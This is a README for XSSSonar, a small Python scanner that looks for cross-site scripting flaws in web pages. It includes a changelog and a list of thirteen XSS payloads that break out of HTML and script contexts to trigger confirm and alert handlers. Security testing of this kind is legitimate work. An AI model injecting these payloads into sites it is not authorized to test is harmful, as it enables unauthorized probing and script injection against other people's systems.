 # XSSSonar

Little tool to look for XSS vulnerabilities in a web page.

![XSS Sonar Screenshot](xsssonar.png)

## Info

This code is just a draft. There are some errors still to be corrected, and sometimes false positives occur.<br/>
Test with Python 2.7.9 on Debian Jessie. I'll write it for Python 3.x maybe.<br/>

## ChangeLog

<strong>0.1.5a</strong><br/>
[-] Fixed some bugs<br/>
[-] Less than 400 lines of code<br/>
<br/>
<strong>0.1.5</strong><br/>
[-] Added scan on POST parameters<br/>
[-] Changed name<br/>
<br/>
<strong>0.1.4a</strong><br/>
[-] Added stopwatch to know the time spent to check each URL<br/>
[-] Same features with 1500 lines of code missing<br/>
<br/>
<strong>0.1.4</strong><br/>
[-] Check a single URL or a list.txt of sites

## List of XSS Payloads

    '">"'><img src=x onerror=confirm`XSS`>
    "> <script>alert`XSS`</script>
    '">"'><svg onload=confirm`XSS`>
    "',;</script><script>confirm`XSS`</script>
    '><svg onload=confirm`XSS`>
    "><svg/onload=confirm`XSS`//
    "><details/open/ontoggle=confirm`XSS`>
    " onfocus="confirm`XSS`" autofocus=""
    " onclick="confirm`XSS`"
    " onmouseover="confirm`XSS`"
    \"-confirm`XSS`//
    \'-confirm`XSS`//
    "-confirm`XSS`-"'-confirm`XSS`-'

# To start

pip install fake-useragent<br/>
python xsssonar.py
